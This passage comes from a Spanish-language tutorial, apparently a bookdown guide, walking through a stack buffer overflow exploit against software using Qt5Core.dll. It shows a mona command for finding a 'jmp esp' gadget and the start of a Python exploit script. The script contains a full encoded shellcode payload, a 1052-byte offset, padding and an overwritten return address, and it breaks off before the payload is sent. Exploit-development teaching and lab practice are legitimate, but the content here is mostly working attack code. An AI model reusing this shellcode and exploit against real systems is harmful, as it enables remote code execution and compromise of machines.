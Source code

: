 1. Buscar el opcode (en este caso `ff e4`) en la dll.

    ```bash
    !mona find -s "\xff\xe4" -m Qt5Core.dll
    ```

1. Seleccionar una direccion que tenga derechos de ejecucion

    ```{r, echo = FALSE, fig.cap="Buf exec right jmpesp", out.width="90%"}
    knitr::include_graphics("images/Buff-execution-rights-jmpesp.png")
    ```

1. Cambiamos el script poniendole la nueva direccion

    ```python
    #!/usr/bin/python3

    import socket
    import signal
    import pdb
    import sys
    import time
    from pwn import *
    from struct import pack

    # Variables globales
    remoteAddress = "127.0.0.1"

    def executeExploit():
        shellcode = (b"\xba\xf8\x9f\xaf\x72\xda\xce\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
            b"\x52\x31\x55\x12\x83\xc5\x04\x03\xad\x91\x4d\x87\xb1\x46\x13"
            b"\x68\x49\x97\x74\xe0\xac\xa6\xb4\x96\xa5\x99\x04\xdc\xeb\x15"
            b"\xee\xb0\x1f\xad\x82\x1c\x10\x06\x28\x7b\x1f\x97\x01\xbf\x3e"
            b"\x1b\x58\xec\xe0\x22\x93\xe1\xe1\x63\xce\x08\xb3\x3c\x84\xbf"
            b"\x23\x48\xd0\x03\xc8\x02\xf4\x03\x2d\xd2\xf7\x22\xe0\x68\xae"
            b"\xe4\x03\xbc\xda\xac\x1b\xa1\xe7\x67\x90\x11\x93\x79\x70\x68"
            b"\x5c\xd5\xbd\x44\xaf\x27\xfa\x63\x50\x52\xf2\x97\xed\x65\xc1"
            b"\xea\x29\xe3\xd1\x4d\xb9\x53\x3d\x6f\x6e\x05\xb6\x63\xdb\x41"
            b"\x90\x67\xda\x86\xab\x9c\x57\x29\x7b\x15\x23\x0e\x5f\x7d\xf7"
            b"\x2f\xc6\xdb\x56\x4f\x18\x84\x07\xf5\x53\x29\x53\x84\x3e\x26"
            b"\x90\xa5\xc0\xb6\xbe\xbe\xb3\x84\x61\x15\x5b\xa5\xea\xb3\x9c"
            b"\xca\xc0\x04\x32\x35\xeb\x74\x1b\xf2\xbf\x24\x33\xd3\xbf\xae"
            b"\xc3\xdc\x15\x60\x93\x72\xc6\xc1\x43\x33\xb6\xa9\x89\xbc\xe9"
            b"\xca\xb2\x16\x82\x61\x49\xf1\x6d\xdd\x51\x11\x06\x1c\x51\x10"
            b"\x6d\xa9\xb7\x78\x81\xfc\x60\x15\x38\xa5\xfa\x84\xc5\x73\x87"
            b"\x87\x4e\x70\x78\x49\xa7\xfd\x6a\x3e\x47\x48\xd0\xe9\x58\x66"
            b"\x7c\x75\xca\xed\x7c\xf0\xf7\xb9\x2b\x55\xc9\xb3\xb9\x4b\x70"
            b"\x6a\xdf\x91\xe4\x55\x5b\x4e\xd5\x58\x62\x03\x61\x7f\x74\xdd"
            b"\x6a\x3b\x20\xb1\x3c\x95\x9e\x77\x97\x57\x48\x2e\x44\x3e\x1c"
            b"\xb7\xa6\x81\x5a\xb8\xe2\x77\x82\x09\x5b\xce\xbd\xa6\x0b\xc6"
            b"\xc6\xda\xab\x29\x1d\x5f\xdb\x63\x3f\xf6\x74\x2a\xaa\x4a\x19"
            b"\xcd\x01\x88\x24\x4e\xa3\x71\xd3\x4e\xc6\x74\x9f\xc8\x3b\x05"
            b"\xb0\xbc\x3b\xba\xb1\x94")
        offset = 1052
        before_eip = b"A" * offset
        eip = pack("<I", 0x68a98a7b)
